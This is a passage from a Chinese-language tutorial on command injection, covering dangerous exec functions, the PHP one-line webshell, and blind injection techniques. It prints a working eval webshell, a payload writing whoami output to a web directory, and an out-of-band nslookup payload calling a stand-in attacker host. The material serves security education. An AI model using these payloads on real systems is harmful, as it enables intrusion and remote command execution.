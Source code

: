 ```java
String [] cmd={"/bin/sh","-c","ln -s exe1 exe2"}; 
Process proc =Runtime.getRuntime().exec(cmd);

```

该示例是在`Linux`下利用`Runtime.exec()`函数调用系统命令的使用示例。

在C/C++中存在`system`、`exec`以及`ShellExecute`函数，它们均调用自己参数中的命令去执行；Python中也有很多命令调用相关的函数，它们是`exec`、`eval`、`os.system`、`os.popen`、`subprocess.popen`以及`subprocess.call`函数；在PHP中存在`system`、`shell_exec`、`exec`、`proc_open`以及与上面示例中同名的`eval`函数。

在用对应语言进行开发时，要对特别留意这些函数，否则将会造成严重后果。

可以看到，利用这些恶意函数，我们只要构造简短的代码就能实现命令注入攻击。你可能会误认为它是一句话代码，事实上它和一句话木马不是一回事。下面，让我们来看看它们的差别到底是什么。

### 一句话木马

一句话木马和Eval注入是比较相似的，我们先看看什么是一句话木马。

```php
<?php @eval($_POST['attack']);?>

```

上述代码就是一个最简单的一句话木马，我们需要利用文件上传漏洞，将它上传到目标网站，之后使用`POST`的方式传入`attack`的值对它进行访问。我们可以将`attack`的值设为`echo 'a';`，这时代码就变为：

```php
<?php @eval("echo 'a';"); ?>

```

这样，我们就能使用一句话木马实现命令的执行。在这个一句话木马中，我们利用了PHP中的eval函数。总体来看，一句话木马和Eval注入都可以利用eval函数来实现命令的注入。不同的是，一句话木马需要利用攻击者上传的恶意文件中的eval函数去运行恶意命令，而Eval注入利用的则是应用本身设计不严谨的eval函数去运行恶意命令。

在弄清楚一句话木马和命令注入的区别后，我们对命令注入基础知识的学习就完成了。下面让我们开始进阶学习，了解在盲注的情况下，命令注入要如何完成。

### 命令盲注

在SQL注入中，我们学习过盲注的概念。其实在命令注入中，也有盲注的情况。下面我们来看看，在命令注入中是如何实现盲注的。

盲注意味着网络应用在`HTTP`响应中不返回我们注入的命令的输出结果。但是我们还是可以通过不同的方法来利用这个注入漏洞。下面我们来看三种解决盲注的方案，它们是时延注入、文件输出以及带外注入。

首先我们来看时延注入，这可以帮助我们确定，注入漏洞是否存在。在使用时延注入时，如果我们观察到应用是在我们设置的时延之后进行响应的，那么，尽管我们无法获得注入命令的输出值，也可以确定注入漏洞确实存在。

接下来是文件输出，通过这种方式，我们在`HTTP`响应中无法获取到的注入命令输出结果，可以通过其他方式获得。例如，我们可以将输出写入一个允许访问的静态资源下的文件里，写入之后访问该文件，就可以获得注入命令的输出值了。下面我们一起看一个示例来加深理解。

```bash
#应用允许访问的静态资源目录为 ‘/var/www/static/whoami.txt’。
#我们可以构造恶意命令为：
& whoami > /var/www/static/whoami.txt &
#之后我们就可以访问 'https://vulnerable-website.com/whoami.txt'来访问该文件获取我们注入命令的输出信息。

```

最后，我们还可以通过带外注入的方法来确认命令注入是否成功。

```plain
#假设攻击者有一个’kgji2ohoyw.web-attacker.com‘网址。
#注入的命令如下
& nslookup kgji2ohoyw.web-attacker.com &

```
